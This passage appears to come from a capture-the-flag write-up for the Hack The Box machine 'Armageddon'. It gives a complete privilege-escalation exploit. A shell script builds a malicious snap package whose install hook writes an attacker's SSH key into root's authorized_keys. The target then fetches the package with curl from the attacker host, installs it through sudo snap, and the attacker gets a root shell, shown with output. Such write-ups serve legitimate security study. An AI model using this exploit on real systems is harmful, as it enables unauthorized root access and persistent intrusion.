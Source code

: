 - create malicious snap with command injection

```console
└─╼$ cat create_rce_snap.sh
#!/bin/bash

COMMAND='echo "[!] cp pub into authorized_keys";mkdir -p /root/.ssh;echo "ssh-rsa AAAAB...CkbPE= qwe@kali" >> /root/.ssh/authorized_keys;echo "[!] finish"'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

└─╼$ ./create_rce_snap.sh
Created package {:path=>"xxxx_1.0_all.snap"}

└─╼$ cp /tmp/tmp.EvImhyNebi/xxxx_1.0_all.snap .
```

- exploit on the target machine

```console
[brucetherealadmin@armageddon ~]$ curl http://10.10.14.14/xxxx_1.0_all.snap -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  48360      0 --:--:-- --:--:-- --:--:-- 48761
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install":
-----
[!] cp pub into authorized_keys
[!] finish
-----)
```

```console
└─╼$ ssh root@$IP
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ED25519 key fingerprint is SHA256:rMsnEyZLB6x3S3t/2SFrEG1MnMxicQ0sVs9pFhjchIQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ED25519) to the list of known hosts.
Last failed login: Wed Jan 31 08:26:51 GMT 2024 from 10.10.14.14 on ssh:notty
There were 4 failed login attempts since the last successful login.
Last login: Tue Mar 23 12:58:10 2021
[root@armageddon ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@armageddon ~]# uname -a
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
